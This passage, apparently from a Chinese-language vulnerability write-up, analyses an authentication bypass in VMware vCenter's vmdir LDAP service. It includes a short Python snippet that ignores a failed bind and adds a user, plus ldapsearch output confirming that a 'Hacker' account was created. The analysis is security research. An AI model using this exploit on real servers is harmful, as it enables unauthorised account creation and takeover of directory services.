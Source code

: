 现在这2个条件均已满足。

因此，虽然我们无法跳过`bind`操作，直接执行其他命令，但即使在`bind`尝试失败后，我们似乎也能通过这个检查条件。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E7%8E%B0%E6%9C%89%E6%9D%A1%E4%BB%B6"></a>利用现有条件

现在我们掌握了哪些条件呢？我们最终访问到了存在问题的`VmDirLegacyAccessCheck`，在执行添加操作前，`VmDirInternalAddEntry`会调用`VmDirSrvAccessCheck`，后者会调用[VmDirSrvAccessCheck](https://github.com/vmware/lightwave/blob/e3d94cd7cecbbe7df3dbcbf6c91598c6530ca840/vmdir/server/middle-layer/add.c#L241)。

从理论上讲，在整个程序流中，我们应该在很早的某个环节中就无法走到当前分支。`VmDirLegacyAccessCheck`是最后一道安全防线，其任务是检查特定用户是否可以执行这种特定的访问操作（添加或修改LDAP条目）。正确的身份校验首先就不应当允许我们到达目前的位置，身份校验本来应当阻止我们继续前进的。

但前面我们提到过：

> 该漏洞由旧版`vmdir` LDAP处理代码中的2个关键问题所导致：
1、函数`VmDirLegacyAccessCheck`中存在bug，当权限检查失败时依然会授予访问权限。
2、安全设计流上存在缺陷，认为不带有令牌的LDAP会话是内部操作，从而将root权限赋予该会话。

这似乎就是我们利用链中所需的最后一环。如果`VmDirLegacyAccessCheck`始终放行，那么我们应该能成功通过访问权限检查，最终添加我们的用户。

那么如果我们忽略`bind`返回的结果，会出现什么情况？

```
c = ldap.initialize('ldap://192.168.1.130')
try:
  c.simple_bind_s(dn, 'fakepassword')
except:
  pass
c.add_s(dn, ldap.modlist.addModlist(modlist))
```

此时`/var/log/vmware/vmdird/vmdird-syslog.log`中并没有任何输出日志，我们能否通过搜索请求看到这个用户呢？

```
root@computer:~# ldapsearch -b "cn=Hacker,cn=Users,dc=vsphere,dc=local" -s sub -D "cn=Administrator,cn=Users,dc=vsphere,dc=local" -h 192.168.1.130 -x -w 
# extended LDIF
#
# LDAPv3
# base &lt;cn=Hacker,cn=Users,dc=vsphere,dc=local&gt; with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# Hacker, Users, vsphere.local
dn: cn=Hacker,cn=Users,dc=vsphere,dc=local
nTSecurityDescriptor:: ...
krbPrincipalKey:: ...
sn: vsphere.local
userPrincipalName: hacker@VSPHERE.LOCAL
cn: Hacker
givenName: hacker
uid: hacker
sAMAccountName: hacker
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

